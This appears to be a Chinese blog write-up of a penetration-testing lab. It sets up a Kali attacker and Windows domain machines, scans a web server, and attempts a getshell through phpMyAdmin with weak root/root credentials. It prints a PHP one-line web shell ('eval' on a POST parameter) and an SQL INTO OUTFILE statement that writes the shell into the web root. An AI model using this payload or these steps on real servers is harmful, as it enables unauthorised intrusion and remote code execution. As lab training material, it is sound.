 ```yaml
---
layout: post
title: Structs2漏洞复现
categories: [blog ]
tags: [内网渗透,]
description: ""
image:
  feature: windows.jpg
  credit: JYcxk
  creditlink: shzqiip
---
```






## <1>靶机环境搭建

ip设置如下：

```java
kali(攻击机):192.168.236.130 
Windows 7 (web服务器)：192.168.236.132（外网和kali连通）、192.168.52.143（内网ip）
Windows 2008(域控): 192.168.52.138
Win2k3(域管): 192.168.52.141
```

可以看到Windows7是双网卡的（`既通外网又通内网` ),Windows7、Windows2008、Win2k3是在52段的局域网内的。

这里肯定是从 Windows7(web服务器)入手， 看有什么漏洞

## <2>外网边界突破

#### （1）、信息收集

直接扫描 Windows 7 (web服务器)：192.168.236.132 看有什么发现

![image-20240103123642941](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240103123642941.png)

#### （2）PhpMyAdmin后台Getshell

phpmyadmin有两种getshell方式：

- into outfile导出木马
- 利用Mysql日志文件getshell

发现有一个数据库的服务，弱口令root/root，可以看到有执行sql命令的地方，尝试写马试试

查看网站的路径

![image-20240103130452105](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240103130452105.png)

`select '<?php @eval($\_POST\["c"\]);?>' into outfile "C:/phpStudy/MySQL/www/cxk.php"`

发现不能执行这个语句。。。
